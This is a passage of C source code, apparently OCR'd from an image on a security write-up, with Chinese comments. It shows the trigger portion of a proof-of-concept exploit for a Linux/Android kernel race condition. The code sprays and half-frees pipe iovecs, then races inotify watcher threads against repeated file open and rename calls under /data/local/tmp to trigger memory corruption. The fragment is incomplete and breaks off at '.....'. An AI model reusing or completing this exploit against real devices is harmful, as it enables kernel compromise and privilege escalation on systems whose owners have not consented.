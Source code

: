```
    char origname[1024];
    snprintf(origname, sizeof origname, "test_dir/%s", orig_name);
 
    for (j=0;j<10000 && !stop;j++ )
    {
        //if (open(origname,O_RDWR) < 0) perror("open");
    open(origname,O_RDWR);
    }
    printf("openclose done.\n");
    stop = 1;
 
}
 
int main(void) 
{
    initmappings();
    createpipes(); //创建大量iov
    sleep(2);
    releaehalfpipes();//间隔释放iov
    waithalfrelease();//等待释放完毕
 
    pthread_t notify_thread[4];
    pthread_t rename_thread;
    int i = 1;
     
    char buf[1024];
    snprintf(buf, sizeof buf, "touch test_dir/%s", orig_name);
    system("rm -rf /data/local/tmp/test_dir ; mkdir test_dir");
    system(buf);
 
    for ( i ; i < 2; i++ ) { //监控文件打开
        pthread_create(¬ify_thread[i], 
                   NULL, 
                   notify_thread_func, 
                   NULL);
    }
    //Trigger inotify event by file open and rename to 
    //trigger the vulnerability 
    pthread_create(&rename_thread, NULL, trigger_rename_open, NULL);//重命名
 
    pthread_join(rename_thread, NULL);//等待rename线程结束
    printf("rename_thread end\n");
    for ( i = 1; i < 2; i++ )
        pthread_join(notify_thread[i], NULL); //等待notify_thread线程结束
    printf("notify_thread end\n");
    .....
    return 1;
}

```
